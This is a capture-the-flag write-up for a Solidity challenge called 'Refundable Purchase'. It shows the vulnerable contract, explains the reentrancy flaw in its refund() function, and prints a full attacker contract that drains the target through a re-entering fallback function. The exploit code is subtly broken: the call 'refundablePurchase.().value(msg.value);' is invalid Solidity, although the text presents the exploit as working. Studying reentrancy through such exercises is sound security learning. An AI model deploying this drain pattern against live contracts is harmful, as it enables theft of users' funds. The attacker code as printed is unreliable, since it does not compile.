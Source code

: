 # Refundable Purchase

![](./brief.png)

# Solution

Like the previous Smart Contract challenge we were provided with the source for a contract. The aim of the challenge was to drain the contract of all its Ether.

```solidity
pragma solidity ^0.4.24;

contract RefundablePurchase {

    event Refund(address, uint256);
    event PurchaseCompleted(address, uint256);

    address owner;

    mapping (address => uint256) public refunds;

    constructor() public payable {
        require(msg.value == 0.5 ether, "Must send 0.5 Ether");
    }

    /** Fallback function, called when contract receives Ether without data
     */
    function () external payable {
        require(refunds[msg.sender] + msg.value > refunds[msg.sender]); // Overflow guard
        refunds[msg.sender] += msg.value;
    }

    /** Refunds sent Ether
     */
    function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
    }

    /** Call this function once you've received your purchased item
     */
    function completePurchase() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        refunds[msg.sender] = 0;
        emit PurchaseCompleted(msg.sender, amount);
    }

    /** Returns balance of this contract
     */
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }

    /** CTF helper function
     *  Used to check if challenge is complete
     */
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

}
```

The vulnerability can be seen in the ```refund()``` method:

```solidity
function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
}
```

The line below is the key element of the potential exploit:

```solidity
msg.sender.call.value(amount)("");
```

This is where we can exploit this contract. This line sends the refunded Ether to the calling address. However, what if the return address is an Ethereum contract? This will trigger the fallback function of the contract. 
In Solidity smart contracts any funds sent to a contract without any data will be processed by the **fallback** address (if defined).

We can also see that the contract values are updated after the external call with:

```solidity
refunds[msg.sender] = 0;
```

We can use the concept of fallback function on a contract we control to call the refund method again and withdraw more Ether than we have been assigned! We can repeat this as many times are we want to completely drain the contract.

This is known as a **Reentrancy Attack** and was the method used in the infamous [DAO hack](https://www.coindesk.com/understanding-dao-hack-journalists).

Below is the malicious contract used:

```solidity
pragma solidity ^0.4.24;

import "./challenge2.sol";

contract HackContract {

    RefundablePurchase public refundablePurchase;

    constructor (address _refundablePurchase) payable {
        refundablePurchase = RefundablePurchase(_refundablePurchase);
    }

    function start () {
        refundablePurchase.().value(msg.value);
        refundablePurchase.refund();
    }

    function () payable {
    if (refundablePurchase.balance >= msg.value) {
        refundablePurchase.refund();
    }
  }
}
```

The contract is constructed using the address to the target contract defined as ```refundablePurchase```.

The ```start()``` method is where the exploit will begin.

```solidity
function start () {
    refundablePurchase.().value(msg.value);
    refundablePurchase.refund();
}
```

It begins by sending some funds to pass the inital funds to pass the check of the RefundPurchase ```refund()``` function.

```solidity
function refund() public {
    require(refunds[msg.sender] > 0);
    [...]
```

It then calls the ```refund()``` function and starts the loop. The ```refund()``` function sends the refund back to the contract that then triggers the fallback function below:

```solidity
function () payable {
if (refundablePurchase.balance >= msg.value) {
    refundablePurchase.refund();
}
```

The fallback function checks if the contract has any funds left. If there are more funds to steal the method will call the ```refund()``` function again to repeat the process.

This was executed using Remix to upload the contracts to the Ropsten test network. When executing this it drains the contract of all its funds and completes the challenge to provide the flag

```
FLAG: flag{c411_15_n0t_s4f3_w1th_n0_g45_1imit}
```